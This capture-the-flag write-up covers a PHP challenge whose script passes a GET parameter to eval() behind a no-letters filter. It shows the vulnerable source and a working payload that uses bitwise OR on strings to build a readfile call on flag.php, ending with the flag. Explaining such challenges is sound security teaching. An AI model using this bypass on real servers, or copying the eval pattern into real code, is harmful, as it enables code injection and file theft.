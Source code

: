 # Web Warm-up

<https://ctftime.org/writeup/22121>  

We are given a url <http://69.90.132.196:5003/?view-source> which greets us with this PHP script. We want to get contents of a file `flag.php` in this task.

```php
<?php
if(isset($_GET['view-source'])){
    highlight_file(__FILE__);
    die();
}

if(isset($_GET['warmup'])){
    if(!preg_match('/[A-Za-z]/is',$_GET['warmup']) && strlen($_GET['warmup']) <= 60) {
    eval($_GET['warmup']);
    }else{
        die("Try harder!");
    }
}else{
    die("No param given");
}
?>
```

We control a parameter `warmup` which is passed through `eval()` function, and is executed as PHP code.  
We can't use any alphabets in over payload, so we use the fact that in PHP, we can use bitwise operators on 2 strings, which will be applied to each of their characters individually. And that function names can also be strings.  

We can send this payload as `warmup`, but wriiten as some operation of 2 strings that don't use any alphabets.

```php
read_file('flag.php')
```

We can write a script to generate the payload (`gen.py`) which generates  

```php
("2%!$&),%"|"@@@@@@@@")("&,!@$0(0"|"@@@'*@@@");
```

and use it to get the flag
`ASIS{w4rm_up_y0ur_br4in}`
